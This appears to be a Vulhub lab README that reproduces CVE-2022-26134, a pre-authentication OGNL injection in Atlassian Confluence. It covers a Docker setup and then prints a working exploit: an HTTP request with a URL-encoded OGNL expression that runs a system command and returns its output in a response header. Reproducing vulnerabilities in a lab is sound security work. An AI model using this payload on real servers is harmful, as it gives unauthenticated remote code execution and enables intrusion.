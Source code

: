 # Atlassian Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2022-26134)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On June 02, 2022 Atlassian released a security advisory for their Confluence Server and Data Center applications, highlighting a critical severity unauthenticated remote code execution vulnerability. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance.

References:

- <https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html>
- <https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 7.13.6:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](2.png)

The URL-decoded OGNL expression is `${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`.
